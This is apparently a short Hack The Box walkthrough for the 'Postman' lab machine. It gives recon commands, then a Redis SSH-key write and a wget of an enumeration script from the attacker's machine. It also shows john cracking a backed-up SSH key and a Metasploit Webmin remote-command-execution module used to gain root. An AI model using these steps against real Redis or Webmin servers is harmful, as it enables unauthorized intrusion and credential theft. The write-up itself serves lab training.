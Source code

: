 ```yaml
---
title: Postman Hackthebox Writeup
layout: post
category: hackthebox
tags: hackthebox writeup
date: 2020-04-07
---
```


Hello readers, this is not a write-up but a quick walk through of the postman box on hackthebox , just to give a quick path for pwning the box. Follow me on twitter for more.

# About
* Name: Postman
* IP: 10.10.10.160
* Level: Easy
* Os: Linux
* Released : 02/Nov/2019


# Enumeration
1. Commands used for recon:
```
nmap -sC -sV -oN nmap.txt 10.10.10.160
nmap -sC -sV -oN nmap_all.txt -p- 10.10.10.160
gobuster -u http://10.10.10.160/ -w <path to wordlist> -t 20 -o dirscan1.txt
gobuster -u http://10.10.10.160:10000 -w <path to wordlist> -t 20 -o dirscan2.txt
```
2. Following results were found from the recon.
```
Bootstrap 4.0 and jQuery 1.12 on port 80.
22 OpenSSH 7.6p1 ( No working exploit found)
80 Apache httpd 2.4.29 ( No working exploit found)
10000 port http (Webmin — MiniServ 1.910)
Operating System (Ubuntu 4ubuntu0.3)
‘http://10.10.10.160/uploads’ directory found on port 80.
‘https://postman:10000/session_login.cgi ’(Login url found).
Redis key-value store 4.0.9 on port 6379 (Revealed after full port scan) .
```

# Exploitation (User)
1. Found a exploit for redis service on port 6379 on github .
2. Tweaked the exploit to change the ‘config set dir’ command to ‘command set dir /var/lib/redis/.ssh’
3. Logging in with ssh gives us a low privileged shell as user ‘redis’ on the box.
4. Create a python http server on our machine to transfer our linenum script to the box.
```
python3 http.server
```
5. Downloading the script to host
```
wget http://<ip of your machine>:8000/linenum.sh
```
6. Running linenum enumeration script on the host reveals a ‘id_rsa.back’ file present in ‘/opt’ directory.
7. Copying the contents of the ‘ id_rsa.bak’ file to our machine.
8. Convert the file to john format.
```
ssh2john id_rsa.back > hash.txt
```
9. Dictionary attack on the file reveals the password ‘computer2008’ for the user Matt.
```
john — wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
10. From our previous redis shell we login as user ‘Matt’ using password ‘computer2008’.
```
su Matt
```
11. Traversing to Matt’s home directory and finding ‘user.txt’
```
cd /home/matt ; cat user.txt
```


# Exploitation(Root)
1. For root escalation we exploit the ‘webmin’ hosted on port 10000.
2. We use webmin package updates remote command execution exploit present in metasploit.
```
sudo msfconsole to open metasploit.
set ssl on
set username Matt
set password computer2008
set LHOST tun0
set RHOST 10.10.10.160
exploit
```
3. We get a shell as root on the box
```
cat root/root.txt
``` 

# Conclusion
This is how we can pwn the postman box. Hope you all find this useful. I will try to create detailed write-ups for boxes in the future (if i don’t feel lazy xD).